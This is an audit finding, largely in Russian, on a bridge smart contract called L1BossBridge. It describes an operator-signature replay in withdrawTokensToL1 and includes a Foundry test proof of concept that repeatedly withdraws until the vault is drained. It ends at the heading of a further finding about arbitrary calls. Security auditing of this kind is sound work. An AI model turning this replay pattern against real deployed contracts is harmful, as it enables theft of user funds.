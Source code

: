 ### [H-3] В функции  `L1BossBridge:sendToL1` контракт не проверяет что находится в параметре `message`.

**Description:** 

За счет того, что подпись оператора в контракте не как не защищена, злоумышленник может использовать ее для подписи поддельно сформированной транзакции с указанием своего `message`.

**Impact:** 

Из хранилища на уровне L1 могут быть украдены все средства.

**Proof of Concept:**

```javascript

    function testSignatureReplay() public {
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInitialBalance = 100e18;

        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), address(attacker), attackerInitialBalance);

        // An attacker deposits token to L2

        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);

        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

        // Signer/Operator is going to signt he writedrawal
        bytes memory message = abi.encode(address(token), 0 , abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance)));
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
        }

        assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
    }

```

**Recommended Mitigation:** 

Необходимо реализовать защиту от повторного использования подписи оператора.


### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds
